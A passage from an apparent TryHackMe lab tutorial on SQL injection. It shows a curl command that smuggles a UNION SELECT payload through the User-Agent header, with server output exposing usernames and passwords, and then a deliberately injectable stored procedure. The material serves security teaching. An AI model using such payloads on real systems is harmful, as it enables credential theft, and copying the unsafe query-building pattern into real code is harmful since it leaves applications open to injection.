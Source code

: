 ```bash
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.223.104/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
</html>
```

The server's response will be displayed in the terminal. If the SQL injection is successful, you will see the extracted data (usernames and passwords) in the response.

Exploiting Stored Procedures

Stored procedures are routines stored in the database that can perform various operations, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency, they can also be vulnerable to SQL injection if not properly handled.

![process flow of stored procedure](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785792)  

Stored procedures are precompiled SQL statements that can be executed as a single unit. They are stored in the database and can be called by applications to perform specific tasks. Stored procedures can accept parameters, which can make them flexible and powerful. However, if these parameters are not properly sanitised, they can introduce SQL injection vulnerabilities.

Consider a stored procedure designed to retrieve user data based on a username:

```php
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```
